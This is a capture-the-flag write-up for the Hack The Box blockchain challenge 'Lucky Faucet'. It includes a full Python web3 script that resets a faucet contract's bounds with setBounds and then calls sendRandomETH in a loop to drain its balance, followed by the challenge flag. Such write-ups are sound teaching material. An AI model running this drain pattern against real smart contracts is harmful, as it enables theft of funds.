




# Lucky Faucet

> Difficulty: Easy
>
> The Fray announced the placement of a faucet along the path for adventurers who can overcome the initial challenges. It's designed to provide enough resources for all players, with the hope that someone won't monopolize it, leaving none for others.

Solution:

We are given with two files:
1. `Setup.sol`
2. `LuckyFaucet.sol`



Two `IP:PORT` were provided as well which is for the RPC and netcat to interact with the challenge

Based on the code, the goal here should make the smart contract's balance less than or equal to 490. To do that, we should call `sendRandomETH()` so it can send us ETH.

I can't exactly pinpoint but something is funky with the `lowerbound`, so I thought we can maximize the randomness by setting the `lowerBound` to 1 using `setBounds` (so via `setBounds(1,100000000)`).

Before creating the Python script, let's get the ABI first using https://remix.ethereum.org/ again



And retrieve the target contract address as well as the private key



Alright, so we should:
1. Send a transaction to do `setBounds(1,100000000)`
2. Set the initial smart contract balance `targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')`
3. Use a while loop to call `sendRandomETH()` if the balance is still >= 490

```python
from web3 import Web3
from pwn import *
import time
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# Connect to HTB's Ethereum node
htbRPC = 'http://94.237.56.118:46365/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
targetContractAddress = Web3.to_checksum_address('0x79b010b04C1cfa11E262f2D04eeCfcE4dAba5854')

# Contract ABI from Remix
contractABI = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "lowerBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "sendRandomETH",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			},
			{
				"internalType": "uint64",
				"name": "",
				"type": "uint64"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "int64",
				"name": "_newLowerBound",
				"type": "int64"
			},
			{
				"internalType": "int64",
				"name": "_newUpperBound",
				"type": "int64"
			}
		],
		"name": "setBounds",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "upperBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
]

# Create the contract instance
contract = web3.eth.contract(address=targetContractAddress, abi=contractABI)

def sendTx():
    # Estimate gas to call sendRandomETH
    gasEstimate = contract.functions.sendRandomETH().estimate_gas({'from': account.address})

    # Prepare the transaction to call sendRandomETH
    transaction = contract.functions.sendRandomETH().build_transaction({
        'from': account.address,
        'nonce': web3.eth.get_transaction_count(account.address),
        'gas': gasEstimate,
        'gasPrice': web3.eth.gas_price
    })

    # Sign the transaction
    signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

    # Send the transaction
    txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

    # Wait for the transaction receipt
    txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

    print(f'sendRandomETH transaction successful with hash: {txnReceipt.transactionHash.hex()}')

###########################################################

# Estimate gas to call setBounds
gasEstimate = contract.functions.setBounds(1,100000000).estimate_gas({'from': account.address})

# Prepare the transaction to call setBounds
transaction = contract.functions.setBounds(1,100000000).build_transaction({
	'from': account.address,
	'nonce': web3.eth.get_transaction_count(account.address),
	'gas': gasEstimate,
	'gasPrice': web3.eth.gas_price
})

# Sign the transaction
signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

# Send the transaction
txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

# Wait for the transaction receipt
txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

print(f'manipulateBounds transaction successful with hash: {txnReceipt.transactionHash.hex()}')

###########################################################

# Retrieve the target contract's balance
targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')
print(f"Target contract's balance: {targetContractBalance}")

# Requirement is less than or equal to 490 ETH
while targetContractBalance >= 490:
	sendTx()
	time.sleep(1)
	targetContractBalance = web3.from_wei(web3.eth.get_balance(targetContractAddress), 'ether')
	print(f"Target contract's balance: {targetContractBalance}")

print('Retrieving flag')
conn = remote('94.237.56.118', 40051)
conn.sendlineafter('action? ', '3')
print(conn.recvline().decode())
conn.close()
```

Let's run it!



Boom!

Flag: `HTB{1_f0rg0r_s0m3_U}`
